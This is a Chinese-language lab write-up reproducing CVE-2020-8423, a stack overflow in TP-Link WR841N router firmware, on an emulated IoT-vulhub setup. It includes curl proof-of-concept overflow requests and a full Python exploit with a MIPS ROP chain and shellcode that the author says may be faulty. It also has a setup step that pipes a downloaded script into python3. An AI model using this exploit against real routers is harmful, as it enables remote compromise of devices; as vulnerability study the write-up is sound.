










# TP-Link WR841N 栈溢出漏洞（CVE-2020-8423）

第一次搞iot相关，对mips的汇编还不是很熟，先熟悉一下搭环境，之后再去理解原理，这里记录一下环境搭建流程。虽然iot-vulhub已经都做好了docker，但在自己复现的时候还是多多少少会有些问题。


## IoT-vulhub基础环境搭建

```bash
#安装pip
$ curl -s https://bootstrap.pypa.io/get-pip.py | python3

#安装docker
#命令行输docker，根据提示安装就行

# 启动 docker 服务
$ systemctl start docker

# 安装 docker-compose
$ python3 -m pip install docker-compose
```

先下载IoT-vulhub项目

```bash
$ git clone https://github.com/firmianay/IoT-vulhub.git
```

构建基础镜像

```bash
# 注意-t标签不要写错，后面不少Dockerfile根据这个名称来拉的

# 构建 ubuntu1604 基础镜像
$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 .

# 构建 binwalk 容器，方便使用
$ cd baseImage/binwalk && docker build -t firmianay/binwalk .

# 构建 qemu mips 环境
$ cd baseImage/qemu-system/mips
# 运行下载脚本
$ ./images/download.sh
# 镜像构建
$ docker build -t firmianay/qemu-system:mips .
```


## 漏洞环境搭建

### 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:mips`


### 漏洞镜像构建

```bash
# 先切换到相应的目录
$ cd TP-Link/CVE-2020-8423

# 使用 firmianay/binwalk 解压固件：
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/wr841nv10_wr841ndv10_en_3_16_9_up_boot(150310).bin"

# 初始化环境
$ ./init_env.sh mips

# 构建镜像
$ docker-compose -f docker-compose-system.yml build
```



### 启动环境


```bash
# 启动容器
$ docker-compose -f docker-compose-system.yml up
```

启动的过程有点慢




```bash
# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
```


当系统开始不断的跳如下界面说明启动成功，接下来就可以访问http服务了。




本机访问http服务需要挂sock5代理，如下图所示，只需填socks处的主机和端口



然后就可以访问web服务啦，账号admin/admin登入




### 漏洞验证

根据登入之后的path和cookie就可以验证漏洞了


 登陆后得到得到 cookie（如`%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D`）和 path（如`DHJSQKMAPYZXIIXB`）： 

假如是在docker中访问直接按照项目给的curl命令就行

```bash
$ curl -H 'Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D' 'http://192.168.2.2/DHJSQKMAPYZXIIXB/userRpm/popupSiteSurveyRpm_AP.htm?mode=1000&curRegion=1000&chanWidth=100&channel=1000&ssid='$(python -c 'print("/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')''

```



运行完之后就访问不了了




**假如是在本机验证还需要加上-x设置socks5代理参数**

```bash
$ curl -x socks5://127.0.0.1:2345 -H 'Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D' 'http://192.168.2.2/IXFWMIHBBQRZJFPA/userRpm/popupSiteSurveyRpm_AP.htm?mode=1000&curRegion=1000&chanWidth=100&channel=1000&ssid='$(python -c 'print("/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')''
```

效果和上面一样



### exp运行

exp.py放在system-emu/tools目录下面，需要修改path和cookie参数，以及请求头中的User-Agent参数


这个exp说实话感觉有点迷惑。。。docker环境里装了的是python3的pwntools，但是exp运行环境是python2。然后请求的时候原来脚本用的是session.get，但代理貌似没有开起来，所以我exp里又改成了request.get，因为session.get不支持socks5代理，只支持http和https代理。

修改之后的exp

```python
#!/usr/bin/python2

from pwn import *
import requests
import urllib
context.endian = 'big' 
libc_base = 0x77d2a000
sleep = 0x53CA0 #end 00053ECC

g1 = 0x000E204 #0x77F47204
#LOAD:0000E204                 move    $t9, $s1
#LOAD:0000E208                 jalr    $t9 ; sysconf
#LOAD:0000E20C                 li      $a0, 3
g2 = 0x00037470
#LOAD:00037470                 move    $t9, $s2
#LOAD:00037474                 lw      $ra, 0x28+var_4($sp)
#LOAD:00037478                 lw      $s2, 0x28+var_8($sp)
#LOAD:0003747C                 lw      $s1, 0x28+var_C($sp)
#LOAD:00037480                 lw      $s0, 0x28+var_10($sp)
#LOAD:00037484
#LOAD:00037484 loc_37484:
#LOAD:00037484                 jr      $t9 ; xdr_opaque_auth
#LOAD:00037488                 addiu   $sp, 0x28
g3 = 0x0000E904 #0x77f47904
#LOAD:0000E904                 addiu   $a1, $sp, 0x168+var_150
#LOAD:0000E908                 move    $t9, $s1
#LOAD:0000E90C                 jalr    $t9 ; stat64
#LOAD:0000E910                 addiu   $a0, (aErrorNetrcFile+0x28 - 0x60000)
g4 = 0x00374D8
#LOAD:000374D8                 move    $t9, $a1
#LOAD:000374DC                 sw      $v0, 0x4C($a0)
#LOAD:000374E0                 move    $a1, $a2
#LOAD:000374E4                 jr      $t9
#LOAD:000374E8                 addiu   $a0, 0x4C  # 'L'

shellcode  = "\x24\x0e\xff\xfd\x01\xc0\x20\x27\x01\xc0\x28\x27\x28\x06\xff\xff"
shellcode += "\x24\x02\x10\x57\x01\x01\x01\x0c\xaf\xa2\xff\xff\x8f\xa4\xff\xff"
shellcode += "\x34\x0e\xff\xff\x01\xc0\x70\x27\xaf\xae\xff\xf6\xaf\xae\xff\xf4"
shellcode += "\x34\x0f\xd8\xf0\x01\xe0\x78\x27\xaf\xaf\xff\xf2\x34\x0f\xff\xfd"
shellcode += "\x01\xe0\x78\x27\xaf\xaf\xff\xf0\x27\xa5\xff\xf2\x24\x0f\xff\xef"
shellcode += "\x01\xe0\x30\x27\x24\x02\x10\x4a\x01\x01\x01\x0c\x8f\xa4\xff\xff"
shellcode += "\x28\x05\xff\xff\x24\x02\x0f\xdf\x01\x01\x01\x0c\x2c\x05\xff\xff"
shellcode += "\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\xff\xfd\x01\xc0\x28\x27"
shellcode += "\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\x3d\x28\xaf\xae\xff\xe2"
shellcode += "\x24\x0e\x77\xf9\xaf\xae\xff\xe0\x8f\xa4\xff\xe2\x28\x05\xff\xff"
shellcode += "\x28\x06\xff\xff\x24\x02\x0f\xab\x01\x01\x01\x0c"

s0 = p32(0x11111111)
s1 = p32(g2+libc_base)  # break 
s2 = p32(sleep+libc_base)

payload  = "/%0A"*0x55 + 2*'x' + s0 + s1 + s2
payload += p32(g1+libc_base)
payload += 'x'*28
payload += p32(g4+libc_base)    #s1
payload += p32(0x33333333)      #s2
payload += p32(g3+libc_base)    #ra
payload += 'x'*24
payload += shellcode

def exp(path,cookie):
    headers = {
            "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0",
                "Cookie":"Authorization=Basic{cookie}".format(cookie=str(cookie))}

    params = {
        "mode":"1000",
                "curRegion":"1000",
                "chanWidth":"100",
                "channel":"1000",
                "ssid":urllib.unquote(payload)
        }

    url="http://192.168.2.2:80/{path}/userRpm/popupSiteSurveyRpm_AP.htm".format(path=str(path))

    resp = requests.get(url,params=params,headers=headers,timeout=10,proxies={'http':'socks5://127.0.0.1:2345'})
    print(resp.text)

exp("AEAMATJAMXMAVVYB","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
```

运行之后效果图



这里的shellcode可能还有点问题，看上去感觉是执行sleep的，但是运行完exp显示的是SIGSEGV，有待考察，不过肯定栈溢出了。

### 流量抓取

开了代理的话就只能本地访问然后在docker容器里去抓了，结果tcpdump有问题，尝试了修复链接库，但是无果，还好之前编译过静态的tcpdump，拿过来直接用就完事了。

把编译好的tcpdump复制进容器，在容器(代理服务器)中抓流量

```bash
$ ./tcpdump -s 0 -w 1.pcap port 80
```

